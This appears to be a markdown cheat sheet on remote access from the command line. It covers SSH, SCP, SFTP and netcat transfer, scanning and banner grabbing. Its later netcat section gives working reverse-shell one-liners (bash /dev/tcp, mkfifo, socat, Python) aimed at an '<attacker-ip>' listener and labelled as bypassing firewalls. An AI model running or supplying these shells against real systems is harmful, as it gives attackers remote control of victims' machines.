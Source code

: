
# Accessing a Remote System via IP Address & CLI

## 1. Connecting to a Remote System Using an IP Address

### a) Secure Shell (SSH) - Best for CLI Access

#### **Service**: OpenSSH

#### **Command:**
```bash
ssh user@remote-ip
```
#### **Example:**
```bash
ssh root@192.168.1.100
```

#### **Install in Linux:**
```bash
sudo apt install openssh-client  # Client
sudo apt install openssh-server  # Server (if you want to allow connections)
```

#### **Install in Termux:**
```bash
pkg install openssh
ssh user@remote-ip
```

### b) Secure Copy (SCP) - Best for File Transfer

#### **Command:**
```bash
scp file.txt user@remote-ip:/path/to/destination
```
#### **Example:**
```bash
scp myfile.txt root@192.168.1.100:/home/root/
```

#### **Install in Linux/Termux:**
```bash
sudo apt install openssh
pkg install openssh  # Termux
```

### c) File Transfer Protocol (FTP) or Secure FTP (SFTP)

#### **Command:**
```bash
sftp user@remote-ip
```
#### **Example:**
```bash
sftp root@192.168.1.100
put file.txt
get file.txt
```

#### **Install:**
```bash
sudo apt install openssh-client  # Linux
pkg install openssh  # Termux
```

### d) Netcat (nc) - Best for Raw Data Transfer

#### **To receive data (on remote system):**
```bash
nc -l -p 1234 > receivedfile.txt
```

#### **To send data (on local system):**
```bash
cat myfile.txt | nc remote-ip 1234
```

#### **Install:**
```bash
sudo apt install netcat
pkg install netcat
```

## 2. Netcat (nc) - Essential Commands

### **Basic Connection (Client-Server Communication)**

#### **Start a Listener (Server):**
```bash
nc -lvp 4444
```
#### **Connect to the Listener (Client):**
```bash
nc <server-ip> 4444
```
#### **Example:**
```bash
nc 192.168.1.100 4444
```

### **File Transfer**
#### **Send a File:**
```bash
nc -w 3 <receiver-ip> 4444 < file.txt
```
#### **Receive a File:**
```bash
nc -lvp 4444 > received.txt
```

### **Chat Between Two Machines**
#### **On Machine 1 (Listener):**
```bash
nc -lvp 1234
```
#### **On Machine 2 (Client):**
```bash
nc <machine1-ip> 1234
```

### **Port Scanning**
```bash
nc -zv <target-ip> 20-100
```

### **Banner Grabbing (Checking Open Ports)**
```bash
nc -nv <target-ip> 80
```
Type:
```bash
HEAD / HTTP/1.1
```
Press Enter twice to check the server response.

### **Reverse Shell (Bypassing Firewall)**
#### **Attacker Machine (Listener):**
```bash
nc -lvp 5555
```
#### **Victim Machine (Connect Back):**
```bash
bash -i >& /dev/tcp/<attacker-ip>/5555 0>&1
```

### **Transfer Files Over UDP**
#### **Send File:**
```bash
nc -u <receiver-ip> 9999 < file.txt
```
#### **Receive File:**
```bash
nc -u -lvp 9999 > received.txt
```

### **Alternative Methods for Reverse Shells**
#### **Using mkfifo:**
```bash
mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <attacker-ip> 4444 > /tmp/f
```
#### **Using socat:**
```bash
socat TCP:<attacker-ip>:4444 EXEC:/bin/bash
```
#### **Using Python:**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker-ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

### **Installing netcat-traditional for -e Option**
```bash
apt install netcat-traditional
update-alternatives --set nc /bin/nc.traditional
```
